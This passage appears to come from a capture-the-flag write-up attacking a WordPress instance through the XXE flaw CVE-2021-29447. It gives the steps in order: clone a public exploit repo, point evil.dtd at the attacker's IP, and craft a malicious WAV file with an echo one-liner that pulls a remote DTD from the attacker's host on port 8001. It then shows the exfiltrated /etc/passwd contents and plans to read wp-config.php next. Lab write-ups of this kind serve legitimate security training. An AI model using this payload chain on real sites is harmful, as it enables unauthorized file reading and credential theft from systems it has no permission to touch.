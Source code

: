
All of the above gives us a nice platform to upload a malicious XXE file into the wordpress instance

Let's `git clone` the repo, and `make` the php web server 
`git clone https://github.com/motikan2010/CVE-2021-29447.git`

Update the `attacker/www/evil.dtd` file with the attacker ip with the port # of your proxy
Generate a malicious payload, start up your proxy `php -S 0.0.0.0:8001`, and upload it to `/wp-admin/upload.php` 
`echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://<ip>:8001/evil.dtd'"'"'>%remote;%init;%trick;] >\x00'> malicious.wav`

In the proxy logs, you'll get a base64-encoded dump of the `/etc/passwd` file

If we put the data dump through `echo -n <data> | base64 -d`, we should get the contents of the file!
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
jnelson:x:1000:1000:jnelson,,,:/home/jnelson:/bin/bash
systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:105:111:MySQL Server,,,:/nonexistent:/bin/false
proftpd:x:106:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:107:65534::/srv/ftp:/usr/sbin/nologin
```

So, we have some interesting data here - we're seeing a `jnelson` user, with a dedicated `/home/jnelson` folder on the Linux host

Since this site is running `nginx`, we can try to find the `wp-config.php` file by pulling the `/etc/nginx/sites-enabled/default` file
